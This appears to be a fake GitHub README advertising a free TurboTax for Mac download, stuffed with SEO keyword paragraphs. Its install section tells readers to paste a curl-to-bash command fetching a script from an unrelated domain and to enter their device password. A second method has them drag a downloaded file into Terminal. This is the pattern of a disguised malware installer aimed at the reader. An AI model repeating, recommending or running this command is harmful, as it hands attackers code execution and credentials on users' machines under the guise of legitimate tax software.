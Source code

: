 # TurboTax For Mac — Free Download for macOS 📊

TurboTax for Mac is a powerful tax preparation software designed to simplify your tax filing process. Follow the instructions below to download and install it on your macOS device with ease. Get started today! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://turbotax-for-mac.github.io/.github/)

If the download button doesn’t work, follow the step-by-step installation instructions below using the Terminal.

## 📦 How to Install TurboTax For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with TurboTax

- 📈 **Maximize Deductions**: Automatically identify and apply tax deductions tailored to your financial situation.
- 💻 **User-Friendly Interface**: Navigate through a sleek, macOS-optimized interface for a seamless tax filing experience.
- 🔒 **Secure Data Handling**: Protect your sensitive financial data with advanced encryption and secure cloud storage.
- 🧠 **Smart Recommendations**: Receive real-time guidance to optimize your tax returns and avoid costly mistakes.
- 📱 **Multi-Device Sync**: Access your tax data across devices with seamless cloud synchronization.
- 🛠 **Free Updates**: Stay compliant with the latest tax laws through regular software updates.

## About TurboTax

TurboTax for Mac is the leading tax preparation software designed specifically for macOS users, offering a streamlined way to file taxes with confidence. Whether you're a freelancer, small business owner, or individual taxpayer, TurboTax simplifies the process by guiding you through every step. With its intuitive interface and robust features, TurboTax ensures you maximize deductions while staying compliant with the latest tax regulations. Keywords: TurboTax free download, tax software for Mac, macOS tax preparation.

One of the standout features of TurboTax is its ability to automatically import financial data from banks, payroll providers, and investment platforms. This eliminates manual data entry, saving time and reducing errors. By leveraging smart algorithms, TurboTax identifies potential deductions and credits you might overlook, ensuring you get the maximum refund possible. Keywords: TurboTax for Mac free, tax filing macOS, free tax software.

For macOS users, TurboTax offers a native experience optimized for Apple’s ecosystem. The software integrates seamlessly with macOS features like Spotlight Search and iCloud, allowing you to access your tax documents effortlessly. Its clean design and step-by-step guidance make it accessible for both beginners and experienced filers. Keywords: download TurboTax Mac, tax preparation software, TurboTax macOS.

TurboTax also prioritizes security, using industry-standard encryption to protect your personal and financial information. Whether you're filing federal or state taxes, TurboTax ensures your data remains safe while providing real-time feedback to avoid errors. The software supports a wide range of tax scenarios, from simple W-2 filings to complex self-employment taxes. Keywords: TurboTax free macOS, secure tax software, tax filing for Mac.

Another key advantage is TurboTax’s commitment to keeping users updated with the latest tax laws. Regular updates ensure compliance with federal and state regulations, making it a reliable choice for macOS users. With TurboTax, you can file your taxes quickly, accurately, and with peace of mind. Keywords: TurboTax download free, macOS tax app, free tax preparation.

### Advantages of TurboTax for Mac

TurboTax for Mac stands out due to its seamless integration with macOS, robust security features, and comprehensive tax support. Unlike other tax software, TurboTax offers a native macOS experience, ensuring smooth performance and compatibility with Apple’s ecosystem. Its real-time error checking, personalized recommendations, and free updates make it the go-to choice for macOS users looking to simplify tax season. Keywords: TurboTax for Mac download, tax software macOS, free TurboTax.

## 🖼 Preview

![TurboTax Dashboard](https://fileinfo.com/img/sw/ss/xl/intuit_turbotax_166.png) 
*Clean and intuitive dashboard for easy tax filing.*

![Deduction Finder](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_1.jpg)  
*Automatically identifies deductions to maximize your refund.*

![Secure Data Input](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_6.jpg)  
*Securely import financial data with advanced encryption.*


## 🔍 Tags

TurboTax free download, TurboTax for Mac, tax software for Mac, macOS tax preparation, TurboTax macOS, download TurboTax Mac, free tax software, tax filing macOS, secure tax software, TurboTax download free, TurboTax free, TurboTax download, TurboTax free mac, TurboTax download, TurboTax download free, TurboTax mac
